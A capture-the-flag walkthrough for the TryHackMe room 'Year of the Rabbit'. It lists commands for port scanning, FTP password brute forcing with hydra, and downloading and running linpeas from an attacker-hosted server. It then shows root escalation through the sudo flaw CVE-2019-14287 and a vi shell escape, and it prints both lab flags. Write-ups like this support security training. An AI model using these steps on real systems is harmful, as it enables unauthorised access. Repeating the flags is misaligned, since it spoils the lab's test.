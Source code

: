 # Year of the Rabbit

## Overview

Time to enter the warren...

Room link: https://tryhackme.com/room/yearoftherabbit
Difficulty: **Easy**

## Walkthrough

Initiating a full port scan against the target, we see ports 21 (FTP), 22 (SSH), and 80 (HTTP) are open.

```console
$ nmap -p- -T4 <VICTIM_IP> -oN scans/initial_nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-02 10:38 GMT
Nmap scan report for <VICTIM_IP>
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 32.47 seconds
```

Running a full scan against these ports shows the host is running VSFTPd version `3.0.2` and Apache `2.4.10` on a Linux-based system:

```console
$ nmap -p 21,22,80 -A -T4 <VICTIM_IP> -oN scans/open_ports.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-02 10:39 GMT
Nmap scan report for <VICTIM_IP>
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (99%), Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 7.1.1 - 7.1.2 (93%), Linux 3.13 - 4.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.66 ms 10.9.0.1
2   30.50 ms <VICTIM_IP>

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
```

Navigating to the website shows the Apache2 default homepage:

![Year of the Rabbit - Default Apache](/images/yotr_default_apache.png)

From a Gobuster scan, we see an `/assets` directory:

![Year of the Rabbit - Assets](/images/yotr_assets.png)

From `styles.css`, we see a hidden comment for `sup3r_s3cr3t_fl4g.php`:

![Year of the Rabbit - Styles.css](/images/yotr_styles_css.png)

Navigating to this site for the first time redirects us to the infamous Never Gonna Give You Up, with an alert on the site hinting that we should turn off JavaScript:

![Year of the Rabbit - Sup3r S3cret Fl4g](/images/yotr_sup3r_s3cret_fl4g.png)

Instead of this, we can inspect the requests in BurpSuite which reveals hidden directory `/WExYY2Cv-qU`:

![Year of the Rabbit - Hidden Directory](/images/yotr_hidden_directory.png)

Inspecting this directory shows a single `Hot_Babe.png` image file:

![Year of the Rabbit - Directory Contents](/images/yotr_directory_contents.png)

Downloading the file and running `binwalk` identifies hidden data within the file, the `strings` output for which shows a list of credentials for the `ftpuser`:

```console
$ binwalk -e Hot_Babe.png
$ strings _
```

![Year of the Rabbit - Dictionary](/images/yotr_dictionary.png)

Using `hydra` now with our dictionary, we can obtain the `ftpuser` user's password:

```console
$ hydra -l ftpuser -P ftp_pass.txt ftp://<VICTIM_IP> -t 30
```

![Year of the Rabbit - Hydra](/images/yotr_hydra.png)

We can then successfully authenticate as `ftpuser`:

![Year of the Rabbit - Login Success](/images/yotr_login_success.png)

Listing the files in the directory, we see a `Eli's Creds.txt` file:

![Year of the Rabbit - FTP Get](/images/yotr_ftp_get.png)

Viewing the contents, this file turns out to be encoded using [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck), an esoteric programming language:

![Year of the Rabbit - Eli's Creds](/images/yotr_eli_creds.png)

Using [dcode-fr - brainfuck](https://www.dcode.fr/brainfuck-language), we can decode this :

![Year of the Rabbit - Brainfuck](/images/yotr_brainfuck.png)

Logging in via SSH:

![Year of the Rabbit - SSH Login](/images/yotr_ssh_login.png)

Searching for this directory, we find it within `/usr/games/`:

```console
$ find / -name "s3cr3t" 2>/dev/null
```

![Year of the Rabbit - /usr/games/secret](/images/yotr_usr_games_s3cr3t.png)

The file `.th1s_m3ss4g3_15_f0r_gw3nd0l1n3_0nly!` shows their credentials:

![Year of the Rabbit - Gwendoline Creds](/images/yotr_gwendoline_creds.png)

Can now `su` to `gwendoline` and view the contents of `user.txt` within `/home/gwendoline`:

![Year of the Rabbit - user.txt](/images/yotr_user_txt.png)

Running `sudo -l`, we see the following output:

![Year of the Rabbit - sudo -l](/images/yotr_sudo_l.png)

This means we can run `/usr/bin/vi /home/gwendoline/user.txt` as any user other than `root`.

To enumerate the host further, we can download [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20231203-9cdcb38f0) to the host:

```
# Attacker machine
$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20231203-9cdcb38f/linpeas.sh
$ sudo python3 -m http.server 8080

# Victim machine
$ wget http://<ATTACKER_IP>:8080/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

From the results, we see an outdated version of `sudo`:

![Year of the Rabbit - Linpeas Sudo Version](/images/yotr_linpeas_sudo.png)

Searching for exploits, we see a local privilege escalation vulnerability dubbed CVE-2019-14287. With this version of `sudo`, no check is made for the existence of a specified user ID, so it executes a given binary with arbitrary user ID and `sudo privileges`. It uses the arguments `-u#-1` which returns `0`, the `root` user's ID:

```console
$ sudo -l
...
	(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

This will open the `vi` text editor which can be escaped by typing `:!/bin/sh` which will launch a shell as `root`:

![Year of the Rabbit - Root flag](/images/yotr_root_flag.png)

-----

1. What is the user flag?

```
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

2. What is the root flag?

```
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```